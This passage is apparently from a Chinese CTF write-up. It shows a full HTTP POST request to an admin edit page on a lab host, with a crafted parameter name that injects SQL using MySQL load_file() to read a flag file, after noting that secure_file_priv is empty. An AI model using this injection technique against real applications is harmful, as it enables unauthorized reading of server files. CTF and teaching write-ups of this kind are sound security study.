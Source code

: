 [![](assets/1708920194-ea746c0fe74b6958d3779ef9161b2707.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215111746-ca3e1818-cbb0-1.png)

可以发现 secure\_file\_priv 的值为空，所以这里我们就能够使用 load\_file() 读文件：

```bash
POST /public/index.php/index/admin/do_edit.html HTTP/1.1
Host: 192.168.82.3:36000
Content-Length: 206
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.82.3:36000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.82.3:36000/public/index.php/index/admin/goods_edit/id/1.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=liuqtach04lpk8e6c5l713jcn3
Connection: close

id=1&name=fake_flag&price=100.00&on_sale_time=2023-05-05T02%3A20%3A54&data`%3Dload_file('/fffflllaaaagggg')%23=https%3A%2F%2Fi.postimg.cc%2FFzvNFBG8%2FR-6-HI3-YKR-UF-JG0-G-N.jpg&data=flag%7Basdasdadadada%7D
```

[![](assets/1708920194-2d6ca1f96da7cffdbb1cfed69973c8b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215111754-cf4e57dc-cbb0-1.png)

